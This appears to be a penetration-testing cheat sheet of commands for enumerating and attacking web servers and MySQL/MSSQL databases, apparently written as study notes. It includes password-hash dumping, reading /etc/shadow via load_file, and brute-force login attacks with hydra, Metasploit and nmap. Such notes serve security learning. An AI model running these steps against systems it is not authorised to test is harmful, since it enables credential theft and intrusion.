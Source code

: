   
## HTTP
  ### IIS
  - whatweb <IP or DOMAIN> -> basic enumeration
  - dirb http://<DOMAIN or IO> -> Find directories with default wordlist
  - browsh --startup-url http://x.x.x.x/Default.aspx -> Rendering a website in shell
  - nmap scripts:
    - nmap x.x.x.x -sV -p80 --script http-enum
    - nmap x.x.x.x -sV -p80 --script http-headers (HTTP HEADER INFORMATION)
    - nmap x.x.x.x -sV -p80 --script http-methods --script-args http-methods.url-path=/webdav/ (or something else..)
    - nmap x.x.x.x -sV -p80 --script http-webdav-scan --script-args http-methods.url-path=/webdav/ -> WEBDAV Scan
  
  ### APACHE
  - the same from above applies also here!
  - msfconsole
    - use auxiliary/scanner/http/http_version (check the options and run)
    - use auxiliary/scanner/http/brute_dirs -> Bruteforce / Wordlist Directories
    - ROBOTS.TXT: use auxiliary/scanner/http/robots_txt
  
  
  ## MySQL
  
  - Connect to mysql via shell
    - mysql -h x.x.x.x -u root
  - show databases;
  - use database;
  - select * from table;
  - metasploit enumeration on writeable directories of the operating system
    - use auxiliary/scanner/mysql/mysql_writable_dirs (set options (dir_list etc.) and run the exploit and maybe set verbose to false because it will tell us a lot :D )
  - dump hashes with metasploit
    - use auxiliary/scanner/maysql/mysql_hashdump -> set at least username and password and rhosts -> WRITE HASHES DOWN!
  - load system files (if we have access which should be present to previous enumeration)
    - select load_file("/etc/shadow"); -> if that works, WRITE THAT DOWN!
  - check for empty password login with nmap
    - nmap x.x.x.x -sV -p 3306 --script=mysql-empty-password
  - nmap x.x.x.x -sV -p3306 --script=mysql-users --script-args="mysqluser='root,mysqlpass=''" -> Write all users down
  - nmap x.x.x.x -sV -p3306 --script=mysql-databases --script-args="mysqluser='root,mysqlpass=''" -> Shows all Databases
  - nmap mysql-audit script can be useful. Check documentation for more info!
  
  - DICTIONARY ATTACK
    - via msfconsole -> use auxiliary/scanner/mysql/mysql_login -> set all options (pass_file etc.), set stop_on_success true and verbose to false!
    - via hydra -> hydra -l root -P <wordlist> x.x.x.x mysql
  
  ## MSSQL
  - nmap x.x.x.x -p1433 --script ms-sql-info -> general information
  - nmap x.x.x.x -p1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 -> ntlm info
  - nmap x.x.x.x -p1433 --script ms-sql-brute --script-args userdb=<PATH>,passdb=<PATH> -> Bruteforce / Dictionary Attack
  - nmap x.x.x.x -p1433 --script ms-sql-empty-password -> Check for empty passwords
  